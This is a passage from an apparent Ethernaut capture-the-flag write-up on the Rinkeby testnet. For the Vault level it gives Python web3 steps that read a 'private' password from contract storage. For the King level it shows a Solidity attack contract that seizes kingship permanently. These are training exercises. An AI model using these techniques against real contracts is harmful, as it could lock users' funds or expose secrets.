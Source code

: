 1. Get the password from the contract's storage

```python
password = web3.eth.get_storage_at(EthernautInstances['vault'], '0x01')
```

2. Unlock the vault using the password

```python
vault.unlock(password, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x03ec2e81ed977af2394d251f6fba6f25af30fb36bbcaaa98e59f04c40a57c81f

3. Check if the vault is locked through the `locked` state variable

```python
locked_assertion = vault.locked() == False
print(f'Is the vault unlocked? {locked_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xfc76f78a068bb6b02333b7c64024f7416c658feeea3ac2fd6e51217db3b138c3

***

## King

### Objectives

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Solution

Here all we have to do is have a contract become `king` as opposed to an ordinary address. So we create a contract that performs a low level call to send the funds (because `transfer` would run out of gas) to the King contract. The amount to send has to be greater than or equal to 0.001 ETH (1e15 wei). Once the contract takes over as king, no other contract or address can take over.

### How I did it

1. Deploy the attacking contract KingAttack (at: `0x27eb59A15364a45a53AcB341514e0fcAf44BF0Ad`)

```python
kingattack = KingAttack.deploy(EthernautInstances['king'], _from)
```

2. Call the `becomeKing()` function, while sending enough funds to take over the contract (1e15 wei = 0.001 ether) defined in the contract as follows:

```js
function becomeKing() external payable {
    (bool success,) = address(kingContract).call{value: msg.value}("");
    require(success, "Transfer failed.");
}
```
